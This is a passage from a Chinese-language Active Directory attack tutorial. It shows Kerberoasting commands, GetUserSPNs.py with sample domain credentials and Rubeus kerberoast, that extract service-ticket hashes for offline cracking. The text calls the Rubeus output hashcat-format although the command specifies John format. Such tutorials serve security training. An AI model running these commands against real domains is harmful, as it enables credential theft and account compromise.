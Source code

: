 ![截图](3b0ece74ee38c8d197e79d536480f440.png)

如下命令，将请求注册于**指定用户**下的 SPN 的服务票据并以 hashcat 能破解的格式保存为 hash2.txt 文件。

```
python3 GetUserSPNs.py -request -dc-ip 10.211.55.4 xie.com/hack:P@ss1234 -outputfile hash2.txt -request-user test
```

如图所示，运行 GetUserSPNs.py 脚本请求注册于 test 用户下的 SPN 的服务票据并以 hashcat 能破解的格式保存为 hash2.txt 文件。

![截图](12d59733342a96762bc17c425e46a7dd.png)

#### 2.使用 Rubeus 请求

Rubeus 里面的 kerberoast 支持对所有用户或者特定用户执行 kerberoasting操作，其**原理在于先用 LDAP 查询域内所有注册在域用户下的 SPN(除了kadmin/changepw)，再通过发送 TGS 包，然后直接打印出能使用 John 或hashcat 爆破的 Hash。**

如下命令会请求注册于用户下的所有 SPN 的服务票据，并以 hashcat 能破解的格式保存为 hash.txt 文件。

```
Rubeus.exe kerberoast /format:john /outfile:hash.txt
```
